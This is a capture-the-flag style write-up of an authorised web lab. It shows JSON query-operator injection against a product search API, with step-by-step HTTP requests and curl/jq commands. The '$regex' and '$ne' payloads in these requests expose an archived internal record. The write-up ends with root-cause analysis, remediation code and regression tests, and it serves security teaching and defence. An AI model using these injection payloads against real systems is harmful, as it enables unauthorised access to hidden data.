> **Publication note:** This article documents an authorised WebVerse educational lab reproduced on 17 August 2026. Cookie and session values are redacted, and the objective is shown as `WEBVERSE{REDACTED}`. Temporary lab hostnames remain visible in screenshots where they help preserve the request context.

## Executive Summary

Lumenex has a public product search that sends simple string filters to `POST /api/products/search`. The backend also accepts JSON objects containing query operators. By changing the `status` and `visibility` filters together, I reached an archived internal product that never appears in the normal public catalogue.

I first followed the full chain in Caido and then repeated it with `curl` and `jq`. Both clients returned the same records at every important step. The result is JSON query operator injection with an access-control impact, not SQL injection. The evidence does not identify the database, ODM, source code, or exact query construction.

> **CONFIRMED FINDING**
>
> An anonymous public search request can replace string values with query-operator objects. A combined status and visibility filter returns an archived internal record that the normal catalogue excludes.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | Lumenex |
| Difficulty | Medium |
| Reproduction date | 17 August 2026 |
| Endpoint | `POST /api/products/search` |
| Authentication | None required by the public catalogue workflow |
| Primary weakness | [CWE-943](/cwes/cwe-943/): Improper Neutralization of Special Elements in Data Query Logic |
| Access-control impact | [CWE-284](/cwes/cwe-284/): Improper Access Control |
| Disclosure impact | [CWE-200](/cwes/cwe-200/): Exposure of Sensitive Information to an Unauthorized Actor |
| Evidence | Browser, Caido request/response pairs, `curl`, `jq`, solved-state UI |
| Caido reproduction | Passed |
| Terminal reproduction | Passed |

### Verified Attack Chain

```text
Public /products page
  > frontend traffic reveals POST /api/products/search
Empty JSON body
  > 7 active/public products
Normal category and impossible-category controls
  > expected subset and stable empty result
category as {$regex: ".*"}
  > object accepted; same 7-product baseline
visibility != public
  > empty when tested alone
status != active
  > one discontinued/public product
status != active + visibility != public
  > archived/internal product LMX-INT-0001
  > WEBVERSE{REDACTED}
WebVerse submission
  > LAB SOLVED
Stop
```

## 2. Scope and Evidence Limits

Testing stayed inside one authorised Lumenex instance. I used the public products page and the search endpoint called by that page.

- No login testing, write request, scanner, unrelated route test, broad operator list, or bulk extraction was used.
- The CLI pass repeated the Caido sequence and stopped after the objective-bearing response.
- A single-field empty result applies only to that test. It does not rule out a record that requires another filter to change at the same time.
- The responses confirm query-operator handling and client control over `status` and `visibility`.
- The evidence does not confirm MongoDB, Mongoose, another NoSQL product, the query merge order, or the server source code.

## 3. Evidence-Led Chronological Reproduction

The Caido and terminal sections use the same order. Each test changes one value, records the result, and keeps the final two-field request until the earlier controls explain why it is needed.

### 3.1 Caido/Burp Reproduction

#### Step 1: Find the Search Route

I opened the public products page and followed its own traffic. The page loaded normally and sent product filters to `POST /api/products/search`.

```http
GET /products HTTP/1.1
Host: <LAB_HOST>
```



**Figure 1: Public catalogue baseline.** The page shows only the normal active and public products.



**Figure 2: Route discovery.** The request and response bind the next step to the application's public product page rather than a guessed endpoint.

#### Step 2: Record the Empty-Body Baseline

The first search request used an empty JSON object. It returned seven products, all marked `active` and `public`.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{}
```



**Figure 3: Normal baseline.** The response contains seven active/public records. Every later result is compared with this list.

#### Step 3: Confirm the Normal Category Filter

Before using an operator, I checked a regular value. `category=panel` returned the two panel products already present in the baseline.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{"category":"panel"}
```



**Figure 4: Positive control.** Normal string filtering works and returns the expected subset.

#### Step 4: Create a Stable Empty Result

An impossible category returned an empty array. This confirms that the server applies the category field and gives the later object test a clear comparison point.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{"category":"__mmp_no_such_category__"}
```



**Figure 5: Negative control.** The same endpoint has a stable zero-result response.

#### Step 5: Replace the String with a Query Operator

I changed only `category`. Instead of a string, the request sent a `$regex` object. The API accepted it and returned the same seven records as the empty-body baseline.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{"category":{"$regex":".*"}}
```



**Figure 6: JSON shape change.** An object reaches the query logic where the frontend normally sends a string. This test does not expose an internal product by itself.

#### Step 6: Compare the Visibility Values

The expected `public` string returned the normal seven-product list.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{"visibility":"public"}
```



**Figure 7: Visibility control.** The normal public value reproduces the baseline.

I then changed only `visibility` to a `$ne` object. The response was empty.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{"visibility":{"$ne":"public"}}
```



**Figure 8: Visibility alternate.** No record is returned when this field changes alone. That result does not close a later test involving another policy field.

#### Step 7: Compare the Status Values

The normal `active` string returned the same seven-product baseline.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{"status":"active"}
```



**Figure 9: Status control.** The normal active value behaves as expected.

Changing only `status` to not active returned `LMX-HB-70-DC`. This product is discontinued but still public.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{"status":{"$ne":"active"}}
```



**Figure 10: Status alternate.** One policy-field change reaches a record outside the normal active list, but it does not yet return an internal product.

#### Step 8: Combine Status and Visibility

The single-field tests affected different parts of the result set, so I combined those two confirmed fields once. The response returned `LMX-INT-0001`, marked `archived` and `internal`. Its description contained the WebVerse objective.

```http
POST /api/products/search HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/json

{
  "status": {"$ne": "active"},
  "visibility": {"$ne": "public"}
}
```



**Figure 11: Combined filter result.** The normal catalogue does not include `LMX-INT-0001`; changing both client-controlled policy fields returns it as archived/internal. Only the objective value is redacted.

> **WHAT THIS CONFIRMS**
>
> The public client can change the status and visibility rules used by the search. Their combined result includes an internal archived record that the normal catalogue hides.

#### Step 9: Confirm the Objective

I submitted the recovered objective. WebVerse accepted it, and testing stopped.



**Figure 12: Authoritative status.** The lab confirms that the recovered value was correct.

### 3.2 Terminal/CLI Reproduction

I repeated the same path with `curl` and `jq`. These requests do not depend on a browser cookie or proxy-added header. Replace `<LAB_ORIGIN>` with the current lab origin.

#### Step 1: Save the Products Page

```bash
curl -sS -D - '<LAB_ORIGIN>/products' \
  -o /tmp/lumenex_products.html
```



**Figure 13: CLI entry point.** `curl` returns HTTP 200 and saves the public page for local inspection.

#### Step 2: Find the Frontend Request Contract

```bash
grep -n -B 4 -A 12 'api/products/search' /tmp/lumenex_products.html
```



**Figure 14: Frontend contract.** The page source shows the route, `POST` method, JSON content type, and request body.

#### Step 3: Repeat the Empty-Body Baseline

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{}' \
  | jq '{count:length,records:[.[]|{sku,status,visibility}]}'
```



**Figure 15: CLI baseline.** The same seven active/public records appear outside Caido.

#### Step 4: Repeat the Normal Category Filter

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{"category":"panel"}' \
  | jq '{count:length,records:[.[]|{sku,category,status,visibility}]}'
```



**Figure 16: CLI positive control.** The normal panel string returns the same two products as Caido.

#### Step 5: Repeat the Empty-Result Control

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{"category":"__mmp_no_such_category__"}' \
  | jq '{count:length,body:.}'
```



**Figure 17: CLI negative control.** The impossible category again returns count `0`.

#### Step 6: Repeat the JSON Object Test

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{"category":{"$regex":".*"}}' \
  | jq '{count:length,records:[.[]|{sku,status,visibility}]}'
```



**Figure 18: CLI JSON shape change.** The query-operator object is accepted and returns the baseline records.

#### Step 7: Repeat the Visibility Control

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{"visibility":"public"}' \
  | jq '{count:length,records:[.[]|{sku,status,visibility}]}'
```



**Figure 19: CLI visibility control.** The expected public value returns seven records.

#### Step 8: Repeat the Visibility Alternate

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{"visibility":{"$ne":"public"}}' \
  | jq '{count:length,body:.}'
```



**Figure 20: CLI visibility alternate.** This field alone still returns count `0`.

#### Step 9: Repeat the Status Control

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{"status":"active"}' \
  | jq '{count:length,records:[.[]|{sku,status,visibility}]}'
```



**Figure 21: CLI status control.** The normal active value returns the same seven records.

#### Step 10: Repeat the Status Alternate

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{"status":{"$ne":"active"}}' \
  | jq '{count:length,records:[.[]|{sku,name,status,visibility,description}]}'
```



**Figure 22: CLI status alternate.** `LMX-HB-70-DC` appears again as discontinued/public.

#### Step 11: Repeat the Combined Filter

The final `jq` filter checks the objective format and replaces the value before printing the record.

```bash
curl -sS -X POST '<LAB_ORIGIN>/api/products/search' \
  -H 'Content-Type: application/json' \
  --data '{"status":{"$ne":"active"},"visibility":{"$ne":"public"}}' \
  | jq '{count:length,records:[.[]|{
      sku,name,status,visibility,
      objective_match:((.description|type)=="string" and (.description|startswith("WEBVERSE{")) and (.description|endswith("}"))),
      description_public:(if ((.description|type)=="string" and (.description|startswith("WEBVERSE{"))) then "WEBVERSE{REDACTED}" else .description end)
    }]}'
```



**Figure 23: CLI combined result.** `curl` returns the same `LMX-INT-0001` record as Caido, while `jq` keeps the literal objective out of the public output.

## 4. Controls and Results

| Test | Observed result | Why it matters |
| --- | --- | --- |
| `{}` | 7 active/public records | Normal baseline |
| `category=panel` | 2 panel records | Regular string filtering works |
| Impossible category | `[]` | Stable empty-result control |
| `category $regex .*` | Same 7 records | A query-operator object reaches the search logic |
| `visibility=public` | Same 7 records | Normal visibility control |
| `visibility != public` | `[]` | No result for this field alone |
| `status=active` | Same 7 records | Normal status control |
| `status != active` | `LMX-HB-70-DC` | Discontinued but still public product |
| Both alternate policy filters | `LMX-INT-0001` | Archived internal product outside the public catalogue |
| Objective submission | Accepted | The recovered value solved the lab |

The important point is the sequence. The empty visibility result did not end the test because the status control showed that a second policy field changed which records were reachable. One combined request then confirmed the hidden archived/internal record.

## 5. Root Cause and Classification

### 5.1 The API Accepts Objects Where the UI Sends Strings

The frontend sends values such as `category=panel`, `status=active`, and `visibility=public`. The API also accepts objects containing `$regex` and `$ne`. The server is therefore not enforcing the JSON shape expected by the public UI.

This maps to **CWE-943** because user-controlled special query elements change the records selected by the data query. I use CWE-943 instead of CWE-89 because no SQL syntax or SQL-specific behaviour was observed.

### 5.2 Public Input Can Replace Server Policy Filters

Status and visibility decide whether a product is active, archived, public, or internal. A public search request should not be able to replace those server-side rules. The returned internal record gives the finding its **CWE-284** access-control and **CWE-200** disclosure impact.

### 5.3 The Hidden Record Requires Both Fields

`visibility != public` returned nothing by itself. `status != active` returned only a discontinued public product. The archived internal product appeared after both fields changed together. The exact backend merge order remains unknown, but the response sequence shows that both fields affect the returned records.

## 6. Confirmed Impact

- An anonymous user can send query-operator objects to the public product search.
- A status operator returns a discontinued product outside the normal active catalogue.
- The combined status and visibility filter returns an archived internal product outside the public catalogue.
- The internal record contained the WebVerse objective.
- No write access, authentication bypass, file access, command execution, or broad extraction was tested or claimed.

In a real catalogue, the same design could expose unpublished products, archived specifications, internal pricing, or other records that should be filtered on the server. The real severity would depend on the returned data.

## 7. Remediation

### 7.1 Validate the Request Body

- Allow only fields required by the public search UI.
- Require strings where the UI sends strings.
- Reject objects, arrays, `null`, unknown fields, dotted keys, and operator keys beginning with `$` unless the API explicitly supports them.
- Validate permitted category values against an allowlist.

```js
const allowedCategories = new Set([
  "high-bay", "panel", "strip", "retrofit", "controls"
]);

if (body.category !== undefined) {
  if (
    typeof body.category !== "string" ||
    !allowedCategories.has(body.category)
  ) {
    return res.status(400).json({ error: "invalid category" });
  }
}
```

### 7.2 Keep Public Filters Separate from Server Rules

Build a new filter from validated public input. Apply `status` and `visibility` on the server instead of merging the raw request body into the query.

```js
const publicFilter = {
  status: "active",
  visibility: "public",
  ...(validatedCategory ? { category: validatedCategory } : {})
};

return productRepository.findPublic(publicFilter);
```

### 7.3 Limit the Public Response

- Return only fields required by the public catalogue.
- Use a dedicated response model for public products.
- Do not store secrets or objective-like values in fields reachable through public search.

## 8. How to Verify the Fix

| Regression request | Expected result after the fix |
| --- | --- |
| `POST {}` | Only active/public products |
| `POST {"category":"panel"}` | Only active/public panel products |
| `POST {"category":{"$regex":".*"}}` | HTTP 400 validation error |
| `POST {"status":"active"}` | HTTP 400 unless the public API explicitly supports this field |
| `POST {"visibility":"public"}` | HTTP 400 unless the public API explicitly supports this field |
| `POST {"status":{"$ne":"active"}}` | HTTP 400 validation error |
| `POST {"visibility":{"$ne":"public"}}` | HTTP 400 validation error |
| Both operator objects | HTTP 400 and no internal record |

The same regression set should be run through the proxy and CLI clients. The fixed endpoint should reject object-shaped filter values consistently and keep archived/internal products out of every public response.

## 9. Conclusion

Lumenex accepts query-operator objects in a public JSON search request. The first controls showed how normal category filtering and empty results behave. The later tests showed that the client can change status and visibility. Changing both fields returned an archived internal product hidden from the public catalogue.

Caido and `curl` produced the same result. That confirms the endpoint behaviour without guessing the database or framework. The fix is to validate the JSON shape, allow only public search fields, and keep access-control filters on the server.
